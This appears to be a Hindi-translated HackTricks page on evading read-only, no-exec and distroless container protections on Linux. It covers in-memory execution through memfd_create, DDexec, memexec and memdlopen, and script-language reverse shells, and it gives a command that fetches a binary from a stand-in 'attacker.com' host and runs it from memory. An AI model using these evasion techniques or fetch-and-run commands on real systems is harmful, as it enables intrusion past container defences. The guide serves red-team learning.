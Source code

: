 # फाइल सिस्टम सुरक्षा बायपास: रीड-ओनली / नो-एक्जीक्यूट / डिस्ट्रोलेस

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## वीडियो

निम्नलिखित वीडियो में आप इस पृष्ठ में उल्लिखित तकनीकों को अधिक गहराई से समझा गया है:

* [**DEF CON 31 - लिनक्स मेमोरी मैनिपुलेशन की खोज स्टील्थ और इवेजन के लिए**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng & इन-मेमोरी dlopen() के साथ स्टील्थ घुसपैठ - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## रीड-ओनली / नो-एक्जीक्यूट परिदृश्य

लिनक्स मशीनों को **रीड-ओनली (ro) फाइल सिस्टम सुरक्षा** के साथ माउंट किया जाना आम होता जा रहा है, विशेष रूप से कंटेनरों में। यह इसलिए है क्योंकि कंटेनर को ro फाइल सिस्टम के साथ चलाना `securitycontext` में **`readOnlyRootFilesystem: true`** सेट करके उतना ही आसान है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, यदि फाइल सिस्टम को ro के रूप में माउंट किया गया है, तो भी **`/dev/shm`** लिखने योग्य रहेगा, इसलिए यह झूठ है कि हम डिस्क में कुछ भी नहीं लिख सकते। हालांकि, यह फोल्डर **नो-एक्जीक्यूट सुरक्षा** के साथ माउंट किया जाएगा, इसलिए यदि आप यहां एक बाइनरी डाउनलोड करते हैं तो आप **इसे निष्पादित नहीं कर पाएंगे**।

{% hint style="warning" %}
रेड टीम के दृष्टिकोण से, यह **डाउनलोड करना और निष्पादित करना जटिल बनाता है** बाइनरीज को जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर्स या एन्यूमरेटर्स जैसे `kubectl`).
{% endhint %}

## सबसे आसान बायपास: स्क्रिप्ट्स

ध्यान दें कि मैंने बाइनरीज का उल्लेख किया है, आप **किसी भी स्क्रिप्ट को निष्पादित कर सकते हैं** जब तक कि इंटरप्रेटर मशीन के अंदर हो, जैसे कि **शेल स्क्रिप्ट** अगर `sh` मौजूद है या **पायथन स्क्रिप्ट** अगर `python` इंस्टॉल है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी टूल्स को निष्पादित करने के लिए पर्याप्त नहीं है।

## मेमोरी बायपास

यदि आप एक बाइनरी को निष्पादित करना चाहते हैं लेकिन फाइल सिस्टम इसकी अनुमति नहीं दे रहा है, तो ऐसा करने का सबसे अच्छा तरीका **मेमोरी से निष्पादित करना** है, क्योंकि **सुरक्षा वहां लागू नहीं होती**।

### FD + exec सिस्टम कॉल बायपास

यदि मशीन के अंदर कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे कि **Python**, **Perl**, या **Ruby** तो आप मेमोरी से बाइनरी को डाउनलोड कर सकते हैं, इसे मेमोरी फाइल डिस्क्रिप्टर में स्टोर कर सकते हैं (`create_memfd` सिस्टम कॉल), जो उन सुरक्षाओं से संरक्षित नहीं होगा और फिर **`exec` सिस्टम कॉल** को कॉल करके **fd को निष्पादित करने के लिए फाइल के रूप में इंगित करें**।

इसके लिए आप [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) प्रोजेक्ट का आसानी से उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह इंगित की गई भाषा में एक स्क्रिप्ट जनरेट करेगा जिसमें **बाइनरी संपीड़ित और b64 एन्कोडेड** होगी और `create_memfd` सिस्टम कॉल को कॉल करके बनाए गए **fd** में **डिकोड और डिकंप्रेस करने के निर्देश** होंगे और इसे चलाने के लिए **exec** सिस्टम कॉल को कॉल करेंगे।

{% hint style="warning" %}
यह PHP या Node जैसी अन्य स्क्रिप्टिंग भाषाओं में काम नहीं करेगा क्योंकि उनके पास स्क्रिप्ट से कच्चे सिस्टम कॉल्स को कॉल करने का कोई **डिफ़ॉल्ट तरीका नहीं है**, इसलिए `create_memfd` को कॉल करके बाइनरी को स्टोर करने के लिए **मेमोरी fd** बनाना संभव नहीं है।

इसके अलावा, `/dev/shm` में एक फाइल के साथ एक **रेगुलर fd** बनाना काम नहीं करेगा, क्योंकि आपको इसे चलाने की अनुमति नहीं होगी क्योंकि **नो-एक्जीक्यूट सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको अपनी **`/proc/self/mem`** को ओवरराइट करके अपनी प्रक्रिया की मेमोरी को **संशोधित करने** की अनुमति देती है।

इसलिए, प्रक्रिया द्वारा निष्पादित किए जा रहे **असेंबली कोड को नियंत्रित करके**, आप एक **शेलकोड** लिख सकते हैं और प्रक्रिया को "म्यूटेट" कर सकते हैं ताकि **कोई भी मनमाना कोड निष्पादित किया जा सके**।

{% hint style="success" %}
**DDexec / EverythingExec** आपको अपने खुद के **शेलकोड** या **किसी भी बाइनरी** को **मेमोरी** से लोड करने और **निष्पादित करने** की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
इस तकनीक के बारे में अधिक जानकारी के लिए Github देखें या:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का अगला कदम है। यह एक **DDexec शेलकोड डेमोनाइज्ड** है, इसलिए जब भी आप **एक अलग बाइनरी चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की जरूरत नहीं होती, आप सिर्फ DDexec तकनीक के माध्यम से memexec शेलकोड चला सकते हैं और फिर **इस डेमोन से संवाद करके नए बाइनरीज को लोड और चलाने के लिए पास कर सकते हैं**।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) पर **PHP रिवर्स शेल से बाइनरीज को चलाने के लिए memexec का उपयोग कैसे करें** इसका उदाहरण पा सकते हैं।

### Memdlopen

DDexec के समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक बाइनरीज को मेमोरी में **आसानी से लोड करने** की अनुमति देती है ताकि बाद में उन्हें चलाया जा सके। यह निर्भरताओं वाले बाइनरीज को लोड करने की भी अनुमति दे सकता है।

## Distroless Bypass

### Distroless क्या है

Distroless कंटेनर्स में केवल वह **न्यूनतम घटक होते हैं जो किसी विशेष एप्लिकेशन या सेवा को चलाने के लिए आवश्यक होते हैं**, जैसे कि लाइब्रेरीज और रनटाइम निर्भरताएं, लेकिन बड़े घटकों जैसे कि पैकेज मैनेजर, शेल, या सिस्टम उपयोगिताओं को शामिल नहीं करते हैं।

Distroless कंटेनर्स का उद्देश्य अनावश्यक घटकों को हटाकर और कंटेनर्स के हमले की सतह को कम करके शोषण किए जा सकने वाले भेद्यताओं की संख्या को कम करना है।

### रिवर्स शेल

एक distroless कंटेनर में आपको शायद `sh` या `bash` भी नहीं मिलेगा ताकि आप एक सामान्य शेल प्राप्त कर सकें। आपको `ls`, `whoami`, `id` जैसे बाइनरीज भी नहीं मिलेंगे... सब कुछ जो आप आमतौर पर एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **रिवर्स शेल प्राप्त नहीं कर पाएंगे** या सिस्टम को **एन्यूमरेट** नहीं कर पाएंगे जैसा कि आप आमतौर पर करते हैं।
{% endhint %}

हालांकि, अगर समझौता किया गया कंटेनर उदाहरण के लिए एक फ्लास्क वेब चला रहा है, तो पायथन इंस्टॉल है, और इसलिए आप एक **पायथन रिवर्स शेल** प्राप्त कर सकते हैं। अगर यह नोड चला रहा है, तो आप एक नोड रिव शेल प्राप्त कर सकते हैं, और यही बात लगभग किसी भी **स्क्रिप्टिंग भाषा** के साथ होती है।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप भाषा की क्षमताओं का उपयोग करके सिस्टम को **एन्यूमरेट** कर सकते हैं।
{% endhint %}

अगर **कोई `read-only/no-exec`** सुरक्षा नहीं है तो आप अपने रिवर्स शेल का दुरुपयोग करके फाइल सिस्टम में अपने बाइनरीज को **लिख सकते हैं** और उन्हें **चला सकते हैं**।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनर्स में ये सुरक्षा आमतौर पर मौजूद होती हैं, लेकिन आप **पिछली मेमोरी एक्जीक्यूशन तकनीकों का उपयोग करके उन्हें बायपास कर सकते हैं**।
{% endhint %}

आप [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) पर **उदाहरण** पा सकते हैं कि कैसे कुछ RCE भेद्यताओं का **शोषण करके स्क्रिप्टिंग भाषाओं के रिवर्स शेल्स** प्राप्त करें और मेमोरी से बाइनरीज को चलाएं।

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में शामिल हों या मुझे **Twitter** 🐦 पर **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

